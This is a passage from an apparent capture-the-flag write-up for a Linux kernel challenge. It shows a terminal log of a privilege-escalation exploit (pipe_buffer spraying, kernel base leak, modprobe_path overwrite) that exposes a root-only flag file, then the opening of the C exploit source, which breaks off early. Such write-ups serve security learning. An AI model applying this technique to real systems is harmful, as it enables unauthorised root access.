 
```
user@PwnMeIfYouKern:~$ ls -la /passwd
total 4
drwxr-xr-x    2 root     0                0 May  5 21:55 .
drwxr-xr-x   14 user     1000             0 May  9 22:46 ..
-rw-------    1 root     0               17 May  5 21:55 passwd
user@PwnMeIfYouKern:~$ cat /passwd/passwd
cat: can't open '/passwd/passwd': Permission denied
user@PwnMeIfYouKern:~$ /exploit
[*] Spraying pipe_buffer objects...
[+] pipe_buffer.ops = 0xffffffffa2810840
[+] kbase = 0xffffffffa2000000
[+] modprobe_path @ 0xffffffffa2a51a00
[+] getting a shell :)
/home/user/x: line 1: ﾭ: not found
user@PwnMeIfYouKern:~$ ls -la /passwd/passwd
-rwxrwxrwx    1 root     0               17 May  5 21:55 /passwd/passwd
user@PwnMeIfYouKern:~$ cat /passwd/passwd
PWNME{dummyflag}
```

## Full exploit
Here is the full exploitation code :
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdint.h>

#define err(msg) do { perror(msg); exit(-1); } while (0);

#define BUF_SIZE 0x1000
#define NUM_PIPEFDS 0x1

int fd;

struct arg_new {
    int new_item;
    char buf[0];
};

struct arg_edit {
    int new_item;
    int idx;
    char buf[0];
};

void hex_view(char *buf, size_t size) {
    for (int i = 0; i < size; i++) {
        if ((i % 0x10) == 0) {
            printf("%08x:", i);
        }
        printf(" %02hhx", buf[i]);
        if ((i % 0x10) == 0xf) {
            printf("\n");
        }
    }
    printf("\n");
}

void new_item(char *buf, size_t size) {
```